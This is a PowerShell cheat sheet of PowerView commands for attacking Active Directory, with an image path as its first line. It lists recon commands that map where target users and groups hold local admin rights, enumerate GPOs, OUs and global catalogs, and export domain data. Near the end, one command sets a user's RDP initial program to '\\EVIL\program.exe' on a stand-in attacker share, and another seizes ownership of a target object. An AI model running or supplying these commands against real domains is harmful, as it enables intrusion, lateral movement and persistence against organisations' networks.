 ```powershell
Get-DomainOU -GPLink '<GPP_GUID>' -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn}

# enumerate what machines that a particular user/group identity has local admin rights to
#   Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
Get-DomainGPOUserLocalGroupMapping -Identity $ztarg_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
Get-DomainGPOUserLocalGroupMapping -Identity $ztarg_group -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

# find all policies applied to a computer/server
Get-DomainGPO -ComputerIdentity $computer -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn

# find all policies applied to an user
Find-GPOLocation -UserName $ztarg_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn

# all disabled users
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=2)" -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
Get-DomainUser -UACFilter ACCOUNTDISABLE -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# find all computers in a given OU
Get-DomainComputer -SearchBase "ldap://OU=..." -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# enumerate all gobal catalogs in the forest
Get-ForestGlobalCatalog -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# turn a list of computer short names to FQDNs, using a global catalog
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn }

# save a PowerView object to disk for later usage
Get-DomainUser -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | Export-Clixml user.xml
$ztarg_users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the owner of $ztarg_obj in the current domain to $zlat_user
Set-DomainObjectOwner -Identity $ztarg_obj -OwnerIdentity $ztarg_user_name -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
```